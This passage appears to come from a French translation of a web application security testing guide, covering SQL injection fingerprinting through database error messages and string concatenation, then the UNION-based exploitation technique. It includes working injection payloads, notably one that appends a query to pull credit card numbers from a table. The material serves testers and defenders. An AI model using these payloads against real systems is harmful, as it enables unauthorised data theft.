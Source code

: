 `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

Oracle:

`ORA-00933: SQL command not properly ended`

MS SQL Server:

```html
Microsoft SQL Native Client error ‘80040e14’
Unclosed quotation mark after the character string

SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1
```

PostgreSQL:

```html
Query failed: ERROR: syntax error at or near
"’" at character 56 in /www/site/test.php on line 121.
```

S'il n'y a pas de message d'erreur ou un message d'erreur personnalisé, le testeur peut essayer d'injecter dans des champs de chaîne en utilisant différentes techniques de concaténation :

- MySql : ‘test’ + ‘ing’
- SQL Server : ‘test’ ‘ing’
- Oracle : ‘test’||’ing’
- PostgreSQL : ‘test’||’ing’

### Techniques d'exploitation

#### Technique d'exploitation syndicale

L'opérateur UNION est utilisé dans les injections SQL pour joindre une requête, délibérément falsifiée par le testeur, à la requête d'origine. Le résultat de la requête falsifiée sera joint au résultat de la requête d'origine, permettant au testeur d'obtenir les valeurs des colonnes d'autres tables. Supposons pour nos exemples que la requête exécutée depuis le serveur soit la suivante :

`SELECT Name, Phone, Address FROM Users WHERE Id=$id`

Nous allons définir la valeur `$id` suivante :

`$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

Nous aurons la requête suivante :

`SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

Qui joindra le résultat de la requête d'origine avec tous les numéros de carte de crédit dans la table CreditCardTable. Le mot clé `ALL` est nécessaire pour contourner les requêtes qui utilisent le mot clé `DISTINCT`. Par ailleurs, nous remarquons qu'au-delà des numéros de carte bancaire, nous avons sélectionné deux autres valeurs. Ces deux valeurs sont nécessaires car les deux requêtes doivent avoir un nombre égal de paramètres/colonnes afin d'éviter une erreur de syntaxe.

Le premier détail dont un testeur a besoin pour exploiter la vulnérabilité d'injection SQL à l'aide d'une telle technique est de trouver le bon nombre de colonnes dans l'instruction SELECT.
